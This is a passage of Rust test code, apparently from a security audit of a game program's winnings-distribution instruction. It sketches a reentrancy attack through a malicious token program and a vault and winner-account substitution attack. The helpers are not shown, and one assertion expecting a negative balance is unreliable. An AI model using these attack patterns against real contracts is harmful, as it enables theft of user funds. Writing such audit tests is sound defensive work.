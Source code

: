 ```rust
    #[test]
    fn test_reentrancy_via_cpi() {
        let mut game_session = create_test_game_session(1000);
        let vault_balance = 10000; // 10k tokens in vault

        // Create malicious token program that triggers reentrancy
        let reentrant_program = create_reentrant_token_program();

        let ctx = Context::new(
            &program_id,
            &mut DistributeWinnings {
                game_session,
                game_server: game_server_keypair(),
                vault: game_vault(),
                winner1: attacker_account(),
                winner2: attacker_account(),
                winner3: attacker_account(),
                winner4: attacker_account(),
                winner5: attacker_account(),
                token_program: reentrant_program, // ❌ Malicious program
            },
            &[]
        );

        let result = distribute_winnings_handler(ctx, "test_session".to_string(), 0);

        // Malicious program triggers multiple distributions
        // Through reentrancy callbacks
        if result.is_ok() {
            let final_vault_balance = get_vault_balance();

            // Vault drained beyond normal distribution
            assert!(final_vault_balance < 0); // Negative balance!

            let attacker_balance = get_account_balance(attacker_account());

            // Attacker received multiple times the normal amount
            assert!(attacker_balance > vault_balance);
        }
    }

    #[test]
    fn test_account_substitution_in_cpi() {
        let mut game_session = create_test_game_session(1000);

        // Create legitimate looking but malicious accounts
        let fake_vault = create_attacker_controlled_vault();
        let fake_winner_accounts = create_attacker_accounts();

        let ctx = Context::new(
            &program_id,
            &mut DistributeWinnings {
                game_session,
                game_server: game_server_keypair(),
                vault: fake_vault, // ❌ Attacker's vault
                winner1: fake_winner_accounts[0], // ❌ All attacker accounts
                winner2: fake_winner_accounts[1],
                winner3: fake_winner_accounts[2],
                winner4: fake_winner_accounts[3],
                winner5: fake_winner_accounts[4],
                token_program: token_program(),
            },
            &[]
```